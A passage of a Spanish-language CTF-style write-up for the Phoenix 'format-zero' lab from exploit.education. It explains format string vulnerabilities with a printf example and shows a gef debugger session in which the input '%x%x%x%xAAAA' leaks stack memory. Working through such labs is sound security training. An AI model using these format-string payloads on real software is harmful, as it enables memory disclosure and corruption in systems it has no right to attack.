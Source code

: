 ```csharp
gef➤  c
Continuing.
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
[Inferior 1 (process 372) exited normally]
gef➤
```

 
La vulnerabilidad se encuentra en el uso inseguro de cadenas de formato (format string). Para comprenderlo mejor, consideremos el siguiente ejemplo: si se ejecuta un `printf` con especificadores de formato sin los argumentos correspondientes, en lugar de mostrar un texto legible, el programa imprimirá valores en hexadecimal que corresponden a direcciones o datos almacenados en la pila durante la ejecución. Esto ocurre porque la función `printf` interpreta cada especificador de formato (`%x`) como si existieran parámetros adicionales, aunque en realidad no los haya. Como resultado, el programa accede y revela contenido arbitrario de la memoria. Por ejemplo
 
En este caso, cada `%x` provoca la lectura de 4 bytes de la pila (representados como 8 caracteres en hexadecimal), exponiendo información sensible de la memoria

```csharp
int main() {
	printf("%x.%x.%x");
}
# output: d0a8b868 d0a8b878 3c43b1b0
```

Ahora probamos la explotación introduciendo la cadena `%x%x%x%xAAAA` como entrada. Esto provoca que el programa empiece a leer y mostrar posiciones de memoria de la pila a través de los especificadores de formato, y al final podemos observar que las letras `AAAA` también quedan reflejadas en el buffer. Esto confirma que podemos inyectar tanto especificadores de formato como valores arbitrarios dentro del buffer, lo que será clave para modificar la variable `changeme`

```csharp
gef➤  r
Starting program: /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%x%x%x%xAAAA

Breakpoint 1, 0x00000000004006f2 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffe630  →  "%x%x%x%xAAAA"
$rbx   : 0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"
$rcx   : 0x00007ffff7ffc534  →  0x000000000000000a
$rdx   : 0x0               
$rsp   : 0x00007fffffffe620  →  0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"
$rbp   : 0x00007fffffffe670  →  0x0000000000000001
$rsi   : 0x00007ffff7ffc535  →  0x0000000000000000
$rdi   : 0x00007fffffffe63d  →  0x0000000000000000
$rip   : 0x00000000004006f2  →  <main+85> lea rdx, [rbp-0x40]
$r8    : 0x101010101010101 
$r9    : 0xa0a0a0a0a0a0a0a  ("\n\n\n\n\n\n\n\n"?)
$r10   : 0x1               
$r11   : 0x246             
$r12   : 0x00007fffffffe6d8  →  0x00007fffffffe8d7  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
$r13   : 0x000000000040069d  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x0               
$eflags: [carry PARITY adjust zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
```